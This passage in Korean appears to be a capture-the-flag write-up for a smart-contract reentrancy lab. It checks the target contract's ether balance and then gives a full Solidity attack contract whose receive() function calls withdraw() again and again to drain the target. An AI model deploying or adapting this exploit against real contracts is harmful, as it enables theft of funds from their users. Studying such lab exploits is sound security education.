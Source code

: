 먼저 컨트랙트에 있는 이더를 전부 가져올 것이므로 컨트랙트에 이더가 얼마나 있는지 확인해보자.

```solidity
=> Instance address
0x0C1D980ed569E3C8912F043AAB94b29797e4aa69
```

get new instance로 인해 인스턴스를 생성하면 주소를 알 수 있다.

![컨트랙트 자산.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1c8fdc2b-05d3-49e1-b3f5-f3bf63c3423a/%EC%BB%A8%ED%8A%B8%EB%9E%99%ED%8A%B8_%EC%9E%90%EC%82%B0.png)

```solidity
await web3.eth.getBalance('0x0C1D980ed569E3C8912F043AAB94b29797e4aa69')
'1000000000000000'
```

이 인스턴스 주소를 기반으로 얻어낸 문제 컨트랙트에 담겨있는 자산은 1,000,000,000,000,000Wei로 

10^15만큼 있다. 10^18이 1이더 이므로 0.001이더만큼 있다고 할 수 있다.

즉 0.001이더를 내 컨트랙트의 주소를 매개변수로하여 deposit하며 문제컨트랙트에 들어있는 이더를 0.002이더로 만든뒤 재진입(re-entrancy)공격을 통해 전부 탈취하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack{
    IReentrance re_ent;
    uint target_balance=1000000000000000;

    constructor(address payable _addr) public { 
        re_ent=IReentrance(_addr);
    }

    function depo(uint256 amount) public payable{
        re_ent.donate{value:amount}(address(this));
    }

		function Attack() public payable{
        re_ent.withdraw(target_balance);
    }

    receive () external payable{
        re_ent.withdraw(target_balance);
    }
}
```

리믹스에서 코드를 짜서 deploy 해주었다.
